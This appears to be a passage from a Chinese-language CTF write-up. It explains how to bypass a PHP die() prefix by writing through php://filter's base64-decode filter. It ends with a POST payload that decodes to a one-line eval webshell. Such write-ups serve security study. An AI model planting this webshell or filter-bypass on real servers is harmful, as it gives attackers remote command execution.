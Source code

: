![image-20250308191420851](assets/image-20250308191420851.png)

- base64编码：

Base64 编码仅包含 64 个可打印字符，即 A-Z、a-z、0-9、+ 和 /。在 PHP 中，当使用 base64_decode 函数解码一个字符串时，如果字符串中包含不在 Base64 字符集中的字符，这些字符将被跳过，只解码合法的 Base64 字符。

题目中 $content 被加上了 `<?php die('大佬别秀了');?> `，我们可以使用 `php://filter/write=convert.base64-decode` 先对其进行解码，在解码过程中，字符` <、?、空格、(、'、)、;、>`，这些字符不符合 base64 编码的字符范围都将先被移除，最终剩下的用于解码的字符只有 phpdie 和我们 post 传入的内容。

由于 Base64 解码是以 4 个字符为一组进行的，这里移除后只剩下 6 个字符，因此我们随便加两个合法字符补全，让其 base64 解码成功，后面再继续传入经过 base64 编码的 payload，也可以被正常解码。

file的内容还是进行两次URL编码，

对一句话木马进行base64编码

![image-20250309143814191](assets/image-20250309143814191.png)

还需要加两个合法字符让前面 base64 解码成功，这里多传入两个1。

post 传入：

```
content=11PD9waHAgQGV2YWwoJF9HRVRbJ2NtZCddKTs/Pg==
```
